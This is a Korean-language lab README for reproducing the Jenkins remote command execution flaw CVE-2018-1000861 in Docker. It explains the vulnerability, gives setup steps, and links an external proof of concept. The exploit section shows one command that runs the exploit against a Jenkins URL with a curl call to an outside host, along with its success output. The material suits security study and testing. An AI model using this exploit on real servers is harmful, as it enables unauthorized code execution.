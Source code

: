 # Jenkins 원격 명령실행 취약점（CVE-2018-1000861）

장대한(@jth0809)

Jenkins는 HTTP 요청 처리를 위해 Stapler 웹 프레임워크를 사용합니다. CVE-2018-1000861은 jenkins의 취약점으로 Stapler/core/src/main/java/org/kohsuke/stapler/MetaClass.java 파일의 부적절한 URL 유효성 검사로 인해 URL을 통하여 시스템에서 일부 JAVA 메소드를 호출해 의도하지 않은 결과를 도출할 수 있는 취약점입니다.

다음은 이 취약점의 잠재적인 공격 방식입니다.

```
인증되지 않은 사용자는 내장된 Winstone-Jetty 서버로 Jenkins를 실행할 때 모든 세션을 무효화할 수 있습니다.

전체/읽기 권한이 있는 사용자는 메모리에 새 사용자 개체를 만들 수 있습니다.

전체/읽기 액세스 권한이 있는 사용자는 주기적으로 실행되는 AsyncPeriodicWork 구현 실행을 수동으로 시작할 수 있습니다.
```

본 취약점은 미국 국립 표준 기술 연구소의 NVD CVSS 3.x (취약점 점수)에서 9.8 critical 점수를 받았습니다.

## 실행방법

Shell에서 다운로드 받은 docker-compose.yml의 폴더로 이동하고 다음 명령어를 입력합니다.

```
docker compose up -d
```

도커에 의해 취약점이 존재하는 환경의 버전으로 자동 Pulling 되고 Created, Started 순서로 자동진행 됩니다.
![](5.png)

`http://localhost:8080`으로 접속하면 jenkins가 정상적으로 실행됩니다.
![](2.png)

## 익스플로잇

[POC](https://github.com/orangetw/awesome-jenkins-rce-2019) 코드로 익스플로잇 할 수 있습니다.
doker-compose.yml의 jenkins 버전이 2.138 이기 때문에 실행시 2.137초과 라는 출력이 나오게 됩니다.
![](1.png)

이외 3가지의 추가 flag 상태가 있습니다
![](4.png)

익스플로잇 하기 위한 다음과 같은 예제가 있습니다.

```
$ python exp.py http://jenkins/ 'curl orange.tw'
[*] ANONYMOUS_READ disable!
[*] Bypass with CVE-2018-1000861!
[*] Exploit success!(it should be :P)
```

또한 CVE-2018-1000861 이외의 취약점도 익스플로잇 해볼 수 있습니다.
CVE-2019-1003005
CVE-2019-1003029

## 참고자료

https://www.jenkins.io/security/advisory/2018-12-05/#SECURITY-595
https://nvd.nist.gov/vuln/detail/CVE-2018-1000861
https://github.com/orangetw/awesome-jenkins-rce-2019
https://github.com/vulhub/vulhub/blob/master/jenkins/CVE-2018-1000861/README.md
